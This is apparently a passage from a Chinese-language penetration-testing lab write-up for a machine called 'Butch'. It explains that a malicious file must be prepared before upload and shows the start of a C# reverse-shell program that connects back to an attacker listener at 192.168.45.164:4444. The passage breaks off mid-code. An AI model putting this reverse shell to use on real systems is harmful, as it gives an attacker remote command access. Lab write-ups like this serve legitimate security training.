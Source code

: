 ![image-20240212201915047](resource/26-W-M-Butch.assets/image-20240212201915047.png)

这里500之后好像只能重置环境，需要构造好恶意文件再上传。

#### 恶意文件1

使用 [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) 生成 C#的反弹Shell代码

```sh
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(&#34;192.168.45.164&#34;, 4444))
			{
				using(Stream stream = client.GetStream())
				{
```